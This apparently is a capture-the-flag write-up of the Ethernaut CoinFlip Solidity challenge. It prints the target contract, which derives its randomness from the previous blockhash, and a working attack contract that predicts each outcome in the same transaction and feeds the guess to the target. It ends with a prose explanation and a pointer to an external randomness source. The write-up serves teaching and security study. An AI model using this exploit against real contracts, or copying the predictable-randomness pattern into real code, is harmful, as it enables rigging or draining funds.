 <img src="coinflip.png" alt="coinflip" />

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract CoinFlip {

  using SafeMath for uint256;
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() public {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

<hr />

# Hack

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "https://github.com/OpenZeppelin/openzeppelin-contracts/blob/v3.0.0/contracts/math/SafeMath.sol";

interface ICoinFlip {
  function flip(bool _guess) external returns (bool);
}

contract CoinFlipRig {
  using SafeMath for uint256;
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() public {
    consecutiveWins = 0;

  }

  function flipGuess(address _targetAddress) public {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;
    bool guess = ICoinFlip(_targetAddress).flip(side);
    if (guess) {
      consecutiveWins++;
    } else {
      consecutiveWins = 0;
    }
  }
}
```

We cannot generate a random number in blockchain itself using the different block parameters as they can be seen by everyone on what it is going to be. To hack the CoinFlip contract we use the CoinFlipRig contract which has similar implementation to CoinFlip as block.number will be same in the same transaction so we can use the same implementation logic to guess the coinFlip side and feed into the flip function of the CoinFlip contract. We have to call the flip function from the contract 10 times in the different transaction as there is a if condition checking if it the same blockhash as the previous one, so the flip method should be called 10 times. So, as we cannot truely generate the random number within the blockchain so we have to use the external source for example Chainlink VRF which generates the random number outof the blockchain and provide the random number to our contract in the form of callback.